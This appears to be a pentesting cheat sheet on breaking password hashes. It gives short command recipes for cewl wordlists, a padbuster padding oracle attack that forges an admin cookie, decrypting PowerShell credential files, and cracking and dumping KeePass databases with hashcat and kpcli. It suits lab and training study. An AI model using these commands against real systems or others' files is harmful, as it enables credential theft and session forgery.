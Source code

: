 # Passwords and hashes
Ways to break password hashes, or just methods to make the brute-force easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden     
somewhere in the website.

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
## Usage
```bash
# DECRYPT
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# ENCRYPT NEW COOKIE
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to, decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```


# KeePass (jenkins) & kdbx files
## Usage
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
```bash
hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
```
3. Use `kpcli` to extract passwords: 
```bash
kpcli --kdb <file>.kdbx
```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 